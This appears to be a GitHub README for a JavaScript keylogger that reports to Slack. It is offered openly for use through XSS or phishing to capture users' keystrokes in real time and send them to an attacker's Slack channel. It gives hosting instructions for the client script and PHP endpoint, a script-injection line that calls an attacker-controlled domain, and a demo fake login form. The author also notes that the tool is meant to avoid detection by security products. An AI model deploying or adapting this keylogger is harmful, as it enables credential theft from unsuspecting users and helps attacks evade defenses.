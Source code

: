 # JS_KeyLogger_to_Slack
To be used with XSS or Phishing to Get Real-Time Keyboard Input Without Waiting for or Controlling Form Submission!

# Description
I wanted to improve upon my XSS API by adding support for capturing all keystrokes by the end user and sending them to a Slack channel for real time monitoring.  This allows for a quicker response to phishing attacks and more information than what's provided by POSTing an HTML form.  It's also more simple that BeEF so it hopefully won't get picked up by any security products!  Because we don't want to flood the Slack Channel or API by submitting each character at a time, we wait until the "Enter/Return" key is pressed or at Mouse click.  I figure this is most likely after a user is finished entering data into an input field somewhere on the page.

# Instructions

Simply host the Keylogger client-side JavaScript (kl.js) on a webserver that's publicly accessible, or embed it directly within your HTML.  If hosting it, simply call it like you would any JS with `<script src="https://YOUR_DOMAIN_HERE/kl.js"></script>`.

Host the Keylogger server-side PHP API (kl.php) on your web server and be sure to edit the variables to point to your Slack Channel via a Webhook.

# Demo

Test it out with something as simple as this : 

```
<HTML>
<BODY>
<SCRIPT SRC="https://YOUR_DOMAIN_HERE/kl.js">
</SCRIPT>
<CENTER>
<H2>JS Phishing/XSS Keylogger to Slack!</H2>
<B>Note: </B>Try typing anywhere and then click the mouse or hit Enter/Return on your keyboard
<BR><BR>
<TABLE>
<TR><TH>Username</TH><TH>Pass</TH></TR>
<TR><TD><INPUT TYPE="text" VALUE="" NAME="User"></TD><TD><INPUT TYPE="password" VALUE="" NAME="Pass"></TD></TR>
</TABLE>
<BUTTON TYPE="button">SUBMIT</BUTTON>
</CENTER>
</BODY>
</HTML>
```

<p align="center"><img align="center" alt="Client Example" src="https://s22.postimg.cc/nk5u28dep/Capture.png">
**Client Example**</p>

<p align="center"><img align="center" width="400" alt="Watching in Slack" src="https://s22.postimg.cc/4rtyynoq9/Capture2.png">
**Watching in Slack**</p>
